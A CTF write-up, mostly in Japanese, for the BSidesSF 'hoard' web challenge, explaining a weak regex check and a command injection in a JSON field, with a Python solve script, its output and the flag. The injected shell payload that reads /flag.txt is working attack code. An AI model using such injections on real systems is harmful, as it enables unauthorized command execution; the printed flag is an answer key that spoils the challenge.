

# hoard

Can you raid the dragon's hoard??
Flag Path: /flag.txt

https://hoard-049015ac.challenges.bsidessf.net/




backend.phpが与えられる

```
preg_match('/[0-9]*/', $data['gold'])
```
これは「数字が0文字以上ある」にマッチするので、どんな文字列でもマッチします。
例: 'ABC', '123abc', ' ; ls ', 何でもOK


## solution

コマンドインジェクション
artifacts に "123';cat /flag.txt;echo '" を仕込んで コマンドインジェクションする

solve.py

```
import requests
import json
import re

# 対象URL
URL = "https://hoard-049015ac.challenges.bsidessf.net/backend.php"

# POST送信するJSONデータ（command injection）
data = {
    "hoardType": "artifact",
    "gold": "123",
    "gems": "123",
    "artifacts": "123';cat /flag.txt;echo '"
}

# POST送信
res = requests.post(URL, json=data)

# レスポンスチェック
if res.status_code == 200 and res.headers.get("Content-Type", "").startswith("application/json"):
    try:
        response_json = res.json()
        message = response_json.get("message", "")
        print("[+] Response message:", message)

        # フラグ抽出
        flag_match = re.search(r"CTF\{.*?\}", message)
        if flag_match:
            print("[+] 🎯 Flag found:", flag_match.group(0))
        else:
            print("[-] No flag found in response.")
    except Exception as e:
        print(f"[-] Failed to parse response: {e}")
else:
    print(f"[-] HTTP error: {res.status_code}")

```

出力
```
$ python3 solve.py 
[+] Response message: Hoard valuation logged and valued at <tt>(123 + 123 + 123) / 3
CTF{a-dragons-hoard-is-all-he-has-dont-take-it-away}

</tt>
[+] 🎯 Flag found: CTF{a-dragons-hoard-is-all-he-has-dont-take-it-away}
```


## flag

`CTF{a-dragons-hoard-is-all-he-has-dont-take-it-away}`